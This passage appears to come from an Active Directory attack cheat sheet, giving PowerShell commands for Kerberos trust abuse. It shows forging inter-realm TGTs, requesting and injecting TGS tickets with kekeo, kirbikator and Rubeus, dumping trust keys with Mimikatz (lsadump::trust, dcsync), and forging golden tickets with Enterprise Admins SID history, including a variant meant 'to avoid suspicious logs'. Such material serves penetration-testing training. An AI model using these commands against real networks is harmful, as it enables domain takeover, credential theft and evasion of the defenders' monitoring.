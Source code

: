 - Request a TGS for any service (CIFS below) in the target domain using the forged inter-realm TGT and kekeo_old

```
PS C:\> .\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/test2-dc.domain.local        # Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well
```

- Inject the TGS to access the targeted service (CIFS below) (may need to use it twice)

```
PS C:\> .\kirbikator.exe lsa .\CIFS.test2-dc.domain.local.kirbi
```

- Check if the TGS is available

```
PS C:\> klist
```

- Attempt to access the resource we requested access to

```
PS C:\> ls \\test2-dc.domain.local\c$
```

- Request a TGS for any service (CIFS below) in the target domain using the forged inter-realm TGT and Rubeus

```
PS C:\> .\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/test2-dc.domain.local /dc:test2-dc.domain.local /ptt

PS C:\> ls \\test2-dc.domain.local\c$
```

### DA to EA: Child to Parent (Krbtgt Hash)

- Dump the trust key

```
PS C:\> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName <Domain Controller>        # Trust key will be under [In] Child -> Parent, then under rc4_hmac_nt
OR
PS C:\> Invoke-Mimikatz -Command '"lsadump::dcsync /user:test\test2$"'        # Trust key will be under Credentials -> Hash NTLM
```

- Forge an inter-realm TGT (Parent DC will trust anything in the TGT, so write SID history of Enterprise Admins group) (make sure to remove past tickets you have saved, otherwise it will error)

```
PS C:\> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Current Domain> /sid:<SID of current domain> /sids:<SID of the Enterprise Admins group of the parent domain> /krbtgt:<krbtgt hash> /ticket:<Path where ticket is to be saved e.g. C:\AD\Tools\krbtgt_tkt.kirbi>"'

PS C:\> Invoke-Mimikatz -Command '"kerberos::golden /user:test-dc$ /domain:<Current Domain> /sid:<SID of current domain> /groups:516 /sids:<SID of the Domain Controllers Group,SID of Enterprise Domain Controllers Group> /krbtgt:<krbtgt hash> /ptt"'        # To avoid suspicious logs

# /sids is forcefully setting the SID History for the Enterprise Admin group for test.domain.local that is the Forest Enterprise Admin Group
```
